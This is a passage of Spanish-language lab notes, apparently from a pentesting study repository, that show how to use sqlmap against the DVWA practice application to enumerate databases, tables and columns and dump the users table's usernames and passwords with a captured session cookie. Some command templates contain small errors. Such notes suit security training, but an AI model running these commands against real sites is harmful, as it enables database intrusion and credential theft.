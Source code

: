     - sqlmap -u "http://192.168.1.183/dvwa/vulnerabilities/sqli/?id=2&Submit=Submit#" --cookie="security=low; PHPSESSID=pkltdi3fv01fr791tk83l6g003; acopendivids=swingset,jotto,phpbb2,redmine; acgroupswithpersist=nada" --level=5 risk=3 --dbs
    -
        - 
            - Explicación de las opciones del comando
                - -u indica la url a atacar
                - --cookie será la cookie capturada
                - --level=5 indica que no importa hacer ruido con nuestro ataque, a menor número, seremos más discretos
                - --dbs es para que busque el nombre de las bases de datos existentes en el servidor
- Terminal -> Habrá que ir respondiendo las preguntas que nos realicé *sqlmap*
- Terminal -> Mostrará los resultados obtenidos , con el comando anterior nos indicará las bases de datos encontradas

#### Ejecución adicional

Podemos acelerar el proceso , sí en el comando de sqlmap, indicamos que realice inyecciones Boolean Based

- Indicar que use inyeciones Boolean Based
    - --level=5 risk=3 -> -technique=B

#### Buscar tablas

- Terminal -> lanzar comando con las opciones -technique=B -D {nombre_base_de_datos} --tables
    - sqlmap -u "${ url_compuesta }" --cookie="${ cookie }" -technique=B -D {nombre_base_de_datos} --tables
    - Ejemplo 
    - sqlmap -u "http://192.168.1.183/dvwa/vulnerabilities/sqli/?id=2&Submit=Submit#" --cookie="security=low; PHPSESSID=pkltdi3fv01fr791tk83l6g003; acopendivids=swingset,jotto,phpbb2,redmine; acgroupswithpersist=nada" -technique=B -D dvwa --tables

#### Buscar columnas

- Terminal -> lanzar comando con las opciones -technique=B -D {nombre_base_de_datos} --tables
    - sqlmap -u "${ url_compuesta }" --cookie="${ cookie }" -technique=B -D {nombre_base_de_datos} -T {nombre_tabla_bbdd} --columns
    - Ejemplo 
    - sqlmap -u "http://192.168.1.183/dvwa/vulnerabilities/sqli/?id=2&Submit=Submit#" --cookie="security=low; PHPSESSID=pkltdi3fv01fr791tk83l6g003; acopendivids=swingset,jotto,phpbb2,redmine; acgroupswithpersist=nada" -technique=B -D dvwa -T users --columns

#### Obtener información de columnas en concreto - con dumpeo de datos

- Terminal -> lanzar comando con las opciones -technique=B -D {nombre_base_de_datos} -T {nombre_tabla_bbdd} -C 'column,column' --dump
    - sqlmap -u "${ url_compuesta }" --cookie="${ cookie }" -technique=B -D {nombre_base_de_datos} -T {nombre_tabla_bbdd} --columns
    - Ejemplo 
    - sqlmap -u "http://192.168.1.183/dvwa/vulnerabilities/sqli/?id=2&Submit=Submit#" --cookie="security=low; PHPSESSID=pkltdi3fv01fr791tk83l6g003; acopendivids=swingset,jotto,phpbb2,redmine; acgroupswithpersist=nada" -technique=B -D dvwa -T users -C 'user,password' --dump
